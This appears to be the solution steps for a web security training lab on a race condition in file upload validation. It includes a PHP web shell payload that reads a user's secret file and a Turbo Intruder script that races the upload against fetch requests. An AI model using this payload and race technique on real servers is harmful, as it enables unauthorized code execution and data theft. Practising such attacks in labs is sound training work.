 ## Solution steps

- Open Burp Suite and set-up proxy.
- Keep the intercept off.
- Log in using the given credentials and upload an image as your avatar, then go back to your account page.
- In Burp, go to Proxy > HTTP history and notice that your image was fetched using a GET request to /files/avatars/<YOUR-IMAGE>.
- On your system, create a file called exploit.php containing a script for fetching the contents of Carlos's secret. For example: `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- Attempt to upload the script as your avatar. Observe that the server appears to successfully prevent you from uploading files that aren't images.
- If you haven't already, add the Turbo Intruder extension to Burp from the BApp store.
- Right-click on the POST /my-account/avatar request that was used to submit the file upload and select Extensions > Turbo Intruder > Send to turbo intruder. The Turbo Intruder window opens.
- Copy and paste the following script template into Turbo Intruder's Python editor:
  def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)

- 
